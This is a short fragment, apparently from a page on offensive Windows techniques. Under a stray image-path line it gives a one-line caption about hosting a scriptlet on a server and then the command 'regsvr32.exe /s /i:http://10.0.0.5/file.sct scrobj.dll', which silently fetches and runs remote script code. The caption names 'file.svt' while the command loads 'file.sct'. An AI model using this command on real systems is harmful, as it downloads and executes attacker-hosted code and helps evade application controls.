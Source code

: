Invoking our file.svt by hosting it on a server
```regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll```

